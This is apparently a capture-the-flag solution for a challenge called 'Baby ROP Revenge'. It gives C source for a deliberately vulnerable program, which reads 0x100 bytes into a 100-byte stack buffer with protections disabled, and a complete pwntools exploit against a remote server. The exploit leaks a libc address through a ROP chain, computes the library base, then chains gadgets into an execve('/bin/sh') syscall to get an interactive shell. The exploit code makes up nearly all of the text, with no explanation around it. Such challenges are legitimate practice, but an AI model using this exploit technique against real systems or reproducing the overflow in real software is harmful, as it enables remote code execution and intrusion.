

# Baby ROP Revenge


## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	return setvbuf(stdin, NULL, _IONBF, 0);
}
int main(){
    setup();
    char buf[100];
    char c[]= "Welcome To Baby ROP Revenge\n";
    write(0, c, sizeof(c));
    write(0, "how do you think BabyROP was ?\n", 32);
    read(0, buf, 0x100);
    write(0, "Thanks For your feedback !\n",28);
    return 0;
}
```

## Solver
```py
#!/usr/bin/env python3
from pwn import *

libc = ELF('libc6_2.27-3ubuntu1.5_amd64.so', checksec=False)
elf = context.binary = ELF('./main')
p = remote('20.216.40.184', 10017)

junk = b'\x90' * 120

rop = ROP(elf)
rop.write(1,elf.got.read)
rop.main()
log.info(rop.dump())
pay = junk + rop.chain()
p.sendline(pay)

p.recvuntil(b'Thanks For your feedback !\n')
leak = u64(p.recvline().strip()[1:9])
log.info(f"read leak = {hex(leak)}")

libc.address = leak - libc.sym.read
log.info(f"libc Address : {hex(libc.address)}")

POPRDI = 0x000000000040132b
POPRAX = libc.address + 0x00000000001cf8a8
POPRSI = libc.address +	0x0000000000023a6a
POPRDX = libc.address +	0x0000000000001b96
SYSCALL = libc.address + 0x0000000000002743 

pay = junk
pay += p64(POPRAX)
pay += p64(0x3b)
pay += p64(POPRDI)
pay += p64(next(libc.search(b'/bin/sh')))
pay += p64(POPRSI)
pay += p64(0)
pay += p64(POPRDX)
pay += p64(0)
pay += p64(SYSCALL)

p.sendline(pay)
p.interactive()
p.close()
```
